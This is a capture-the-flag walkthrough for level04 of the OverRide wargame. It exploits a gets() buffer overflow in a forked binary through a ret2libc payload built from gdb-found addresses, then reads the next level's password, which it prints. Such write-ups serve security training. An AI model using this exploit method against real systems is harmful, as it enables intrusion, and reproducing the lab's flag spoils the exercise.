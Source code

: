# Level04 Walkthrough

## Analyzing the Program with GDB and ghidra

1. **Whats happening**: 
```bash
    level04@OverRide:~$ ./level04 
    Give me some shellcode, k
    gq
    child is exiting...

```

- Its a fork() challenge, here we read user string input thanks to `gets()` function but there is no control on the size. So we can overflow the buffer, so overwrite the pointer (eip register) with a particular libc function address directly.


- We will need to set on gdb  `set follow-fork-mode child`. 
```bash
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 2484]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

(gdb) info register eip
eip            0x41326641       0x41326641 <----- offset 156

```

Same to other level, try a `ret2libc` with `system()`, `exit()`, and `/bin/sh`
```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system, +999999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
```

- Final Payload: 
```bash
(python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level04

level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' ; cat -) | ./level04
Give me some shellcode, k


whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

---


## Moving to level05

1. **Swith User to level05**:
    Run ```su level05```

2. **Authenticate with the Password**:
    
   
 